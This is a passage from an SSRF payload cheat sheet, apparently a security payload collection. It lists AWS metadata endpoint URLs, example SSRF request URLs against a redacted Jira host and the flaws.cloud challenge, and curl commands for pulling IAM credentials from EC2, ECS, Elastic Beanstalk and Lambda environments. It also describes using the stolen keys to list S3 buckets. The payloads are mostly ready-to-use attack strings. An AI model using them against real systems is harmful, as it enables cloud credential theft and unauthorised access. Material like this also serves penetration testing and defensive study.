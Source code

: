 Other URLs to query to access various pieces of metadata about the instance, like the hostname, public IPv4 address, and other properties.
```powershell
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/dynamic/instance-identity/document
```

E.g: Jira SSRF leading to AWS info disclosure - `https://help.redacted.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://169.254.169.254/metadata/v1/maintenance`

E.g2: Flaws challenge - `http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/`


### SSRF URL for AWS ECS

If you have an SSRF with file system access on an ECS instance, try extracting `/proc/self/environ` to get UUID.

```powershell
curl http://169.254.170.2/v2/credentials/<UUID>
```

This way you'll extract IAM keys of the attached role

### SSRF URL for AWS Elastic Beanstalk

We retrieve the `accountId` and `region` from the API.

```powershell
http://169.254.169.254/latest/dynamic/instance-identity/document
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

We then retrieve the `AccessKeyId`, `SecretAccessKey`, and `Token` from the API.

```powershell
http://169.254.169.254/latest/meta-data/iam/security-credentials/aws-elasticbeanorastalk-ec2-role
```

Then we use the credentials with `aws s3 ls s3://elasticbeanstalk-us-east-2-[ACCOUNT_ID]/`.


### SSRF URL for AWS Lambda

AWS Lambda provides an HTTP API for custom runtimes to receive invocation events from Lambda and send response data back within the Lambda execution environment.

```powershell
http://localhost:9001/2018-06-01/runtime/invocation/next
$ curl "http://${AWS_LAMBDA_RUNTIME_API}/2018-06-01/runtime/invocation/next"
```
